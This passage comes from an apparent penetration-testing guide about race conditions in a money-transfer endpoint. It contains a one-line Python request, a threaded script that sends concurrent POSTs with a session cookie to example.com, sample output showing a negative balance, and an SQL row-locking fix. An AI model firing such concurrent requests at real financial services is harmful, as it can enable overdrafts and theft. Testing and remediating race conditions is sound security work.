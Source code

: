 ```python
    print(f"Error: {e}")
    sys.exit(1)
```

**Python Commands**:
- **Command 1**: Run script:
  ```bash
  python3 test_concurrent.py
  ```
- **Command 2**: Test single request:
  ```bash
  python3 -c "import requests; url='http://example.com/api/v1/transfer'; data={'account_id': '123', 'amount': 100.00}; r=requests.post(url, json=data, timeout=5); print(r.status_code, r.text[:100])"
  ```

**Example Vulnerable Output**:
```
Status: 200, Response: {"status": "success", "balance": -100.00}
```

**Remediation**:
- Use row locking (SQL):
  ```sql
  BEGIN TRANSACTION;
  SELECT * FROM accounts WHERE id = 123 FOR UPDATE;
  UPDATE accounts SET balance = balance - 100.00 WHERE id = 123 AND balance >= 100.00;
  COMMIT;
  ```

**Tip**: Save script output to a file (e.g., `python3 test_concurrent.py > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., script output).

### 5. Script Browser-Based Timing Tests with Python Requests

**Objective**: Automate HTTP-based timing tests to simulate race conditions.

**Steps**:
1. **Write Script**:
   - Simulate browser actions with HTTP requests.
2. **Run Script**:
   - Execute and analyze responses.
3. **Verify Findings**:
   - Cross-check with Burp Suite.

**Python Script**:
```python
import requests
import threading
import sys

url = 'http://example.com/transfer'
data = {'account_id': '123', 'amount': 100.00}
cookies = {'session_id': 'abc123'}

def send_request():
    try:
        response = requests.post(url, data=data, cookies=cookies, timeout=5)
        print(f"Status: {response.status_code}, Response: {response.text[:100]}")
    except requests.RequestException as e:
        print(f"Error: {e}")

try:
    threads = [threading.Thread(target=send_request) for _ in range(5)]
    for t in threads:
        t.start()
    for t in threads:
```